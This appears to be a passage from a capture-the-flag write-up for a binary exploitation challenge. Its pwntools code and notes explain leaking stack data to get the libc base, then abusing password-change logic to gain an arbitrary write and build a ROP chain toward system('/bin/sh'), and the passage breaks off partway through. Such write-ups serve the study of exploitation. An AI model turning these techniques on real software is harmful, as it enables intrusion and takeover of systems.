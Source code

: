 ```python
        if ox == 4 and oy == I[0][1]:
            for i in range(16):
                ret_s += 's'
            ox = 20
            I = I[1:]
            if len(I) == 0:
                break
        else:
            next_pos = cal_next[(ox, oy)]
            if next_pos[0] < ox:
                ret_s += 'w'
            elif next_pos[0] > ox:
                ret_s += 's'
            elif next_pos[1] < oy:
                ret_s += 'a'
            else:
                ret_s += 'd'
            ox, oy = next_pos[0], next_pos[1]
    r.send(ret_s.encode() + b'fff')
    sleep(1)
    r.sendline(b'\n\n\ny')
    sleep(0.2)
```
<br />

### leak libc
- After being regular member, we can print i=32('Welcome!')'s information.
- If we login multiple times, i=32's email length can be longer.(db + 3400)
- Through this, we can leak stack's data near main_rbp.
```python
def get_stack_data():
    global r
    r.sendlineafter(b'Choice : \r\n', b'6')
    r.recvuntil(b'email :')
    leak_data = r.recvn(0xc0)
    libc_base = u64(leak_data[0xa8:0xb0]) - 0x29d90
    another_addr = u64(leak_data[0xb8:0xc0])

    return libc_base, another_addr
```
<br />

### overwrite RA of main and ROP
- If we change 'Welcome!'(i=32)'s password, admin's password address can be change.
- After change that, we can also change admin's password, and this means we can overwrite anywhere.
- Change (i=32)'s password to near main_rbp, and we can make ROP.
```python
def attack(main_rbp, libc_base, another_addr):
    pop_rdi = libc_base + 0x2a3e5
    system = libc_base + 0x50d70
    ret = libc_base + 0x29139
    change_pw(p64(main_rbp) + b'\x08')
    logout()

    login(b'admin', p64(1))
    change_pw(b'/bin/sh')
    logout()
    print('11111111111111')

    login(b'Welcome!', p64(main_rbp) + b'\x07')
    change_pw(p64(main_rbp + 8) + b'\x08')
    logout()

```